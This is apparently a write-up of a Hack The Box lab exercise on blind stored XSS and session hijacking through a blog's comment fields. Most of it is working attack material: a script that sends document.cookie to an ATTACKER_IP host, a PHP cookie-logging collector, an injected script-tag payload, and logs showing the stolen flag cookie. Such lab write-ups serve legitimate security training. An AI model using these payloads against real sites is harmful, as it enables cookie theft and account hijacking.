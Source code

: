 Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser.

Apply the skills you learned in this module to achieve the following:
* Identify a user-input field that is vulnerable to an XSS vulnerability
* Find a working XSS payload that executes JavaScript code on the target's browser
* Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag

## Solution

According to the Session Hijacking module, here we need to setup a web server on the attacker machine where we host our malicious files and the write the malicious XSS payload to the website.

For first, we need to identify the XSS vulnerability. We can see that in the comment section of the blog, it is vulnerable to Stored XSS. If we try to write a random comment, there is a message saying that the comment will be reviewed by an Administrator. It means we need to a Blind XSS technique.

In particular, on our attacker machine, let's create some directory that we use as root of our PHP web server. Then, we can create the following `script.js` file:
```javascript
new Image().src='http://ATTACKER_IP/index.php?c='+document.cookie
```
and an `index.php` file:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Now let's run our PHP web server:
```
sudo php -S 0.0.0.0:8000
```
Now, go back to the victim website and let's insert the following payload in the Comment, Name and Website field:
```
"><script src=http://ATTACKER_IP/script.js></script>
```
and send the comment. At this point, on the terminal where we run the PHP server, we will see the following content containing the cookies:
```
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56580 Accepted
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56580 [200]: (null) /script.js
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56580 Closing
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56582 Accepted
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56582 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1666628733;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Mon Oct 24 17:25:32 2022] 10.129.169.178:56582 Closing
```
Here you can see already the flag, that is also stored inside the file `cookies.txt` created by our malicious PHP script. The `cookies.txt` file has the following:
```
Victim IP: 10.129.169.178 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.169.178 | Cookie:  wp-settings-time-2=1666628733
Victim IP: 10.129.169.178 | Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
```
